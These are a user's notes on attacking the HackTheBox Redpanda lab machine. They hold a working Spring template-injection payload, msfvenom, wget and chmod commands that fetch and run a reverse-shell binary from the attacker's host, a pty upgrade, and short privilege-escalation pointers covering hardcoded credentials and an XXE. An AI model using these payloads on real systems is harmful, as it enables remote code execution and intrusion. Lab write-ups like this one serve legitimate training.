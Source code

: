 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('the command').getInputStream())}


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.8:443/r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'

# Privilege escalation
- I discovered that there is a process running as root containing the panda search, when crawling through the long goofy ahh java file structure I found three java files at this path: "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search"
- Hardcoded sql credentials in MainController for some reason

## XXE possible to do PRIV ESC
- Possible XXE in "/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java"
- The payload is described in entity.xml
